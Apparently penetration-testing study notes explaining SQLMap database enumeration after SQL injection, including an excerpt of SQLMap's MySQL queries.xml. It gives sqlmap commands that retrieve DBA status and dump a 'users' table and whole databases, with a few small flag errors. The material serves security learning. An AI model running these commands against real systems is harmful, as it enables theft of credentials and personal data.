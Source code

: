 # Database Enumeration
***
#### Enumeration is a critical phase in an SQl injection attack, taking place after the vulnerability has been detected and confirmed to be exploitable. During this stage, the attacker systematically searches for and extracts as much information as possible from the compromised database. This process onvolves identifying and retrieving all accessible data, leveraging the discovered weakness in the database.
### SQLMap Data Exfiltration
#### SQLMap comes equipped with a predefined set of queries tailored to various Database Management Systems (DBMSes). Each of these queries is designed to run specific SQL commands against a targeted database, facilitating the extraction of valuable information. These queries are carefully crafted to retrieve the desired data from the compromised system. For instance, in the case of a MySQL database, SQLMap utilizes specific SQL commands outlined in its queries.xml file to extract relevant content. Below is an example of such entries for a MySQL DBMS:
```xml
<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```
#### For Example, if we want to retrieve the hostname by using the `--hostname` option for a MySQL DBMS, the @@HOSTNAME query will be used for such purposes.

### Basic Database Data Enumeration
#### Useful flags to retrieve basic information:
* Database version banner (switch --banner)
* Current user name (switch --current-user)
* Current database name (switch --current-db)
* Checking if the current user has DBA (administrator) rights (switch `--is-dba`).
#### Example:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --banner --current-user --current-db --is-dba
```
#### **Note**: The 'root' user in a database is usually distinct from the OS user "root." The database 'root' has full privileges within the DBMS but does not imply similar OS-level permissions. Modern setups typically restrict the database user's OS privileges (e.g., limiting file system access). The same principle applies to the generic 'DBA' role.


### Table Enumeration
#### After finding the current database name , we would try to retrieve the tables name by using the `--tables` flag and specifying the DB name with -D admindb
#### Example:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --tables -D admindb
```

#### Then we can try to exfiltrate data from a table by using the `--dump` option and specifying the table name with -T users
#### Example:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --dump -T users -D admindb
```
#### **NOTE**: In addition to the default CSV format, SQLMap allows us to specify different output formats using the --dump-format option. We can choose formats like HTML or SQLite. Opting for HTML provides a more readable view of the data in a web browser, while selecting SQLite enables us to import the data into an SQLite database for deeper analysis and investigation.

### Table/Row Enumeration
#### We can also specify the columns from a table using the `-C` flag
#### Example:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --dump -T users -D admindb -C name,surname
```
#### Also we can narrow down the words based on their ordinal number(s) inside the table, by using the `--start` and `--top` flags
#### Example to start from 2nd up to 3rd entry:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --dump -T users -D admindb --start=2 --stop=3
```

### Conditional Enumeration
#### In SQLMap we can use the option `--where` to retrieve certain rows based on a known **WHERE** condition
#### Example:
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --dump -T users -D admin --where="name LIKE 'r%'"
```

### Full DB Enumeration
#### Alternatively we can just retrieve all tables inside the database by using the `--dump` option. Or if we want to retrieve all the content from all the databases we can simply use the `--dump-all` flag. In combination with the --dump-all flag we can use the `-exclude-sysdbs` option to skip the retrieval of content from system databases.
